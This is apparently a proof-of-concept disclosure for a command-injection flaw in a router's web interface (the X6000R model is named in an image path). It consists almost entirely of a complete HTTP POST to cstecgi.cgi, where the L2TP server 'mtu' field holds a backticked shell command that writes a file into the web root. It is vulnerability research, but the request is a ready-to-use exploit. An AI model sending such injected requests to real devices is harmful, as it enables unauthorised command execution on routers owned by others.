 

### `mtu`

```
POST /cgi-bin/cstecgi.cgi?token=D526E9BD192CC73D HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 224
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/l2tp.html?token=D526E9BD192CC73D
Priority: u=1

{"enable":"1","sip":"10.8.0.2","eip":"10.8.0.51","server":"10.8.0.1","priDns":"8.8.8.8","secDns":"10.20.0.1","mtu":"`ls >/web/poc_l2tp_mtu.txt`","mru":"1450","ipsecL2tpEnable":"0","ipsecPsk":"","topicurl":"setL2tpServerCfg"}
```

![image-20241029115635966](./X6000R/images/image-20241029115635966.png)
